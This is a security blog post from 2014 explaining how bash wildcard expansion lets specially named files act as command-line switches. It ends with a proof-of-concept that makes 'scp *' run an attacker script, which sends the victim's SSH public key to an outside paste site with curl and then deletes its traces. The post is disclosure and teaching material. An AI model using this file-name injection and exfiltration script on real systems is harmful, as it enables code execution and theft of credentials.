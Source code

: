 ```yaml
---
title: 'Exploiting Wildcard Expansion on Linux'
subtitle: ''
summary: ''
authors:
- admin
tags: [Linux, bash, security]
categories: []
date: "2014-06-21T00:00:00Z"
lastmod: "2014-06-21T00:00:00Z"
featured: false
draft: false

# Featured image
# To use, add an image named `featured.jpg/png` to your page's folder.
# Focal point options: Smart, Center, TopLeft, Top, TopRight, Left, Right, BottomLeft, Bottom, BottomRight
image:
  caption: ''
  focal_point: ""
  preview_only: false

# Projects (optional).
#   Associate this post with one or more of your projects.
#   Simply enter your project's folder or file name without extension.
#   E.g. `projects = ["internal-project"]` references `content/project/deep-learning/index.md`.
#   Otherwise, set `projects = []`.
projects: []

---
```


# Wildcard Expansion

When you type a command with a “*“ in bash, bash expands it to the list of all files in the directory and passes them all as arguments to the program. For example, “rm *“ , will remove files in the current directory.

## Filenames Misinterpreted as Switches

Most command line programs can take switches that affect how they work. For example, the ls command, when ran without any switches, looks like the output below.

```bash
[stephen@superX foo]$ ls
asdf.txt  foobar  -l
```

Now let’s say you want to know what group and user owns these files. You can pass “-l” to the ls program to figure that out, which looks like this:

```bash
[stephen@superX foo]$ ls -l
total 0
-rw-r--r-- 1 stephen stephen 0 Jun 20 19:10 asdf.txt
-rw-r--r-- 1 stephen stephen 0 Jun 20 19:10 foobar
-rw-r--r-- 1 stephen stephen 0 Jun 20 19:10 -l
```

Notice there is a file named -l in our directory. Let’s try “ls *“ now and see what happens:

```bash
[stephen@superX foo]$ ls *
-rw-r--r-- 1 stephen stephen 0 Jun 20 19:10 asdf.txt
-rw-r--r-- 1 stephen stephen 0 Jun 20 19:10 foobar
```

The last two outputs are similar, but the output of “ls *“ is different. It is missing the “-l” file, which was interpreted by ls as the “-l” switch. There’s no way for the ls program to tell that the “-l” came from the wildcard expansion and wasn’t actually what we in intended. It’s equivalent to running:

```bash
[stephen@superX foo]$ ls asdf.txt foobar.txt -l
-rw-r--r-- 1 stephen stephen 0 Jun 20 19:10 asdf.txt
-rw-r--r-- 1 stephen stephen 0 Jun 20 19:10 foobar
```

## Security Problems

Misinterpreted filenames can lead to problems when someone runs a wildcard expansion on a folder they download from the Internet, for example, without first checking the filenames. Could this be used to attack someone’s computer? Can we make a program do something bad by having specially-named files in the directory? Yes, it turns out that we can.

## Known Issue

This problem is well-known, but it still surprises a lot of people. There has been some discussion of it [on the Full Disclosure mailing list](http://seclists.org/fulldisclosure/2011/Sep/190).

Generally, we’re told that this is a “feature”, and that doing anything else would be even more surprising and difficult to understand to someone who really understands what’s going on. Even if that’s the case, if lots of people misunderstand it, and those people can be exploited as a result, then it should be considered a security vulnerability, either in the design or in the documentation.

The posting to Full Disclosure demonstrates how wildcard expansion can be abused to make a user delete files they didn’t intend to. That’s annoying, but isn’t too severe a problem. What we really want is to turn an improper use of “*“ into code execution, and that’s what we’ve done.

## Proof of Concept Exploit

To show that it’s possible to turn this problem into an arbitrary code execution attack, we attack the “scp” command. The scp command provides the “-o” option, which passes a configuration option to ssh. Luckily, ssh has a configuration option that involves running a command. We can take advantage of this to get our script running.

Suppose we have control over the contents of a directory, and inside that directory our victim will run the following command. Imagine, for example, that the user just downloaded a web application’s source code from the attacker’s website and is uploading the files to their web server.

```bash
$ scp * user@example.org:/var/www/
```

To exploit this command, in the directory we place three files:

“-o” - SCP will interpret this file as the “-o” switch.
“ProxyCommand sh supercool.sh %h %p” - SCP will interpret this file’s name as the argument to the “-o” switch.
“supercool.sh” - The script that will run, containing the attacker’s code.
“zzz.txt” - Another file in the directory which serves no purpose for the exploit.

It’s okay to have more files in the directory, so long as none of their names fall between “-o” and “ProxyCommand” in alphabetical order, or come before “-o” in alphabetical order (bash ignores the leading dash when sorting the names, and is case-insensitive). This limitation probably makes actual attacks difficult, since the very suspicious “ProxyCommand” file will show up near the top of the directory listing, if the user does look.

Inside “supercool.sh”, we have a script that will do what “ProxyCommand” is supposed to do, along with some malicious commands:

```shell
#!/bin/sh
# Upload their SSH public key to the Internet, and put a scary message in /tmp/.
echo "By @DefuseSec and @redragonx..." > /tmp/you-have-been-hacked.txt
echo "This could have been your private key..." >> /tmp/you-have-been-hacked.txt
curl -s -d "jscrypt=no" -d "lifetime=864000"                                \
       -d "shorturl=yes" --data-urlencode "paste@$HOME/.ssh/id_rsa.pub"    \
       https://defuse.ca/bin/add.php -D - |                                \
       grep Location | cut -d " " -f 2 >> /tmp/you-have-been-hacked.txt
# Delete evidence of our attack.
rm ./-o ProxyCommand\ sh\ supercool.sh\ %h\ %p
echo > ./supercool.sh
# Do what ProxyCommand is supposed to do.
nc -p 22332 -w 5 $1 $2
```

When the victim runs their scp command, it will appear successful:

```bash
$ scp * user@example.org:/var/www/
supercool.sh
zzz.txt
```

But, when the user checks their /tmp/ directory, they’ll see our message:

```bash
$ cat /tmp/you-have-been-hacked.txt
By @DefuseSec and @redragonx...
This could have been your private key...
https://defuse.ca/b/QQ3nxADu
```

You can download the entire proof of concept directory in a .zip file [here](https://dicesoft.net/publicDownloads/poc.zip). Be careful, and have fun!

This was written by [@RedragonX](https://twitter.com/redragonx) and [@DefuseSec](https://twitter.com/defusesec).